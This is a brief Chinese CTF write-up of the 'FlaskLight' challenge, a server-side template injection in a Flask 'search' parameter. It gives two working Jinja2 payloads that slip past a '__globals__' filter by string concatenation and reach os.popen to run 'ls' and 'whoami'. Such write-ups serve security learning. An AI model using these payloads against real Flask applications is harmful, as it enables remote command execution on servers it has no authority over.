



# [CSCCTF 2019 Qual]FlaskLight

## 知识点

`SSTI`

`flask`

## 解题

题目首页源码提示传参到`search`,因为是`flask`,尝试`SSTI`的`payload`,发现存在`SSTI`



因为这题过滤了`__globals__`



用`payload`打的时候`500`了,然后一步步的找,最后发现是过滤了`__globals__`

```python
?search={{().__class__.__bases__[0].__subclasses__()[140].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('ls').read()")}}
```



或者通过`config`可以直接找,构造简单

```lua
?search={{config.__init__['__global'+'s__'].os.popen("whoami").read()}}
```

[参考文章](https://www.cnblogs.com/Article-kelp/p/16050491.html)